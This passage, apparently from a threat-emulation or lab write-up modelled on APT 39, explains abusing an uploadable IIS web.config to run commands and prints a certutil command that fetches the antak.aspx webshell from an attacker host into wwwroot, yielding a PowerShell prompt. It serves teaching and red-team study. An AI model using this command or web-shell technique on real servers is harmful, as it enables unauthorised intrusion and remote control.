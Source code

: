 
This version of IIS does allow a `web.config` file to be uploaded that will execute
arbitrary commands.  This can be used to execute a command that downloads the
`antak.aspx` web page to the IIS `wwwroot` directory:

```
certutil -urlcache -split -f http://10.10.14.53/antak.aspx C:\inetpub\wwwroot\antak.aspx
```

![](images/Emulating%20A%20Threat%20Actor%20-%20APT%2039/image010.png)<br><br>

After the `uploadedfiles/web.config` page is visited, the command is executed
making the webshell available for use:

![](images/Emulating%20A%20Threat%20Actor%20-%20APT%2039/image011.png)<br><br>

This webshell provides a PowerShell prompt and also allows provides other
capabilities such as uploading/downloading files:

